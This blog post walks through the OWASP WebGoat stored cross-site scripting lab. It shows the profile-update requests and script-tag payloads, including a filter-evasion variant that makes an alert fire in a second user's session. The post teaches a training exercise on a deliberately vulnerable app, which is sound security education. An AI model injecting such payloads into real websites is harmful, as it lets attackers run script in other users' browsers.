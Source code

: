 ```yaml
---
layout: post
title:  "OWASP BWA WebGoat Challenge Part 8 (Continued)"
date:   2017-01-26 13:00:00 -0500
categories: webgoat
---
```

# Cross Site Scripting Lab: Stored XSS
Instructions:

- As 'Tom', execute a Stored XSS attack against the Street field on the Edit Profile page. Verify that 'Jerry' is affected by the attack.
- The passwords for the accounts are the lower-case versions of their given names (e.g. the password for Tom Cat is "tom").

A full lab section on XSS! Let's start off by looking at what a stored XSS attack is. 

< info about a stored XSS attack here >

From OWASPs page on [Testing for Stored XSS][stored-xss], a stored XSS attack generally follows these major steps:

- Attacker stores malicious code into the vulnerable page
- User authenticates in the application
- User visits vulnerable page
- Malicious code is executed by the user's browser

Let's navigate our way to the ```EditProfile``` page and see what we have going on.

<img src="{{ site.baseurl }}/images/2017-01-26-webgoat_part_8_continued/edit-profile.jpg">

Alright, let's see how our input is handled for the 'Street' field:

```
<input class="lesson_text_db" name="address1" value="2211 HyperThread Rd." type="text">
```

Okay, so if we edit that field and press ```UpdateProfile```, we send the following request:

```
firstName=Tom&lastName=Cat&address1=test&address2=New+York%2C+NY&phoneNumber=443-599-0762&startDate=1011999&ssn=792-14-6364&salary=80000&ccn=5481360857968521&ccnLimit=30000&description=Co-Owner.&manager=105&disciplinaryNotes=NA&disciplinaryDate=0&employee_id=105&title=Engineer&action=UpdateProfile
```

and get this page:

<img src="{{ site.baseurl }}/images/2017-01-26-webgoat_part_8_continued/edited-profile.jpg">

Our field for 'Street' now looks like this on ```ViewProfile```:

```
<td>Street: </td><td>test</td>
```

Well, lets see what happens when we try an alert. First, we ```UpdateProfile``` with our script:

```
firstName=Tom&lastName=Cat&address1=<script>'javascript:alert(`XSS`)';</script>&address2=New+York%2C+NY&phoneNumber=443-599-0762&startDate=1011999&ssn=792-14-6364&salary=80000&ccn=5481360857968521&ccnLimit=30000&description=Co-Owner.&manager=105&disciplinaryNotes=NA&disciplinaryDate=0&employee_id=105&title=Engineer&action=UpdateProfile
```

Annnnd......

<img src="{{ site.baseurl }}/images/2017-01-26-webgoat_part_8_continued/tom-failed-alert-xss.jpg">

Huh. Okay, well let's try some other variations of the alert pop (via [OWASPs XSS Filter Evasion Cheat Sheet][filter-evasion]. For example, let's remove the quotations from around the ```javascript:alert()``` call:

```
<script>javascript:alert(`XSS`);</script>
```

<img src="{{ site.baseurl }}/images/2017-01-26-webgoat_part_8_continued/tom-alert-xss.jpg">


Alright! Nice. So now that our alert is inserted into the webserver's data for Tom's ```Street``` field, let's see if Jerry sees what we see. We log into Jerry's account, and view Tom's profile:

<img src="{{ site.baseurl }}/images/2017-01-26-webgoat_part_8_continued/jerry-alert-xss.jpg">

Got 'em!



### Resources

1 [OWASP Stored XSS][stored-xss]

2 [OWASP XSS Filter Evasion][filter-evasion]

[stored-xss]:https://www.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002)
[filter-evasion]:https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet#TD